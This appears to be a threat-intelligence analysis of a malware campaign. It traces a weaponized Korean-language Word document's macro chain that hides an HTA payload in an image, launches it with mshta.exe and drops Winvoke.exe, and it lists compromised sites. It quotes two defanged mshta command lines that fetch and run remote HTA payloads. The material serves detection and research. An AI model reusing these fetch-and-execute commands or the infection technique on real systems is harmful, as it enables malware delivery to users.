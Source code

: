 Infection procedure
Initial infection or spreading
As pointed out in Malwarebytes’s public report, the actor sent weaponized documents to the victim as an initial infection vector. The documents use sophisticated infection methods to try to impede detection.



MD5
File name
Modified time
Author
Last saved user


ed9aa858ba2c4671ca373496a4dd05d4
참가신청서양식.doc
(Form of participation application.doc)
2021-04-13 19:39:00
William
William



The initial infection can be summarized like this:

The user opens the malicious document and subsequently allows the macro to be executed;
A popup message box appears;
The current document gets saved to the path %temp% as HTML and accordingly stores all image files separately within the same directory;
Show decoy document;
Convert %temp%[document name]\image003.png to the BMP file format and add the extension .zip;
Execute image003.zip, which actually contains HTML Application (HTA) code, with mshta.exe;
Remove previously created, temporary files.

The executed image003.zip is an HTML Application (HTA) file containing the second stage payload. This HTA code creates the next payload at the hardcoded path C:/Users/Public/Downloads/Winvoke.exe.
Besides the Microsoft Word document, the actor used an additional, alternative infection method according to our telemetry. Although we weren’t able to acquire the initial file, we assume the actor delivered a file disguised as a PDF, since we discovered artefacts containing the path of the tool ezPDFReader: c:\program files (x86)\unidocs\ezpdfreader2.0g\ezpdfwslauncher.exe. This software is developed by a South Korean software company named Unidocs. At this point, we’re missing clear evidence of whether the attack leveraged a vulnerability within this software in the infection process or it was used to deceive users by opening a PDF document as a decoy while the HTA payload is fetched from a remote resource.
Notably, the compromised website www.allamwith[.]com was used for a long period of time. We first saw the URL appearing in the context of this threat actor in September 2020 and it was still in use when we were researching this series of attacks at the end of April 2021.





"C:\Program Files (x86)\Unidocs\ezPDFReader2.0G\..\..\..\Windows\System32\mshta.exe"  "hxxp://www.jinjinpig.co[.]kr/AnyCss/skin.html" /print

"C:\Program Files (x86)\Unidocs\ezPDFReader2.0G\..\..\..\Windows\System32\mshta.exe" "hxxp://adame.ypelec.co[.]kr/customize/ypelec/images/skin.html" /print
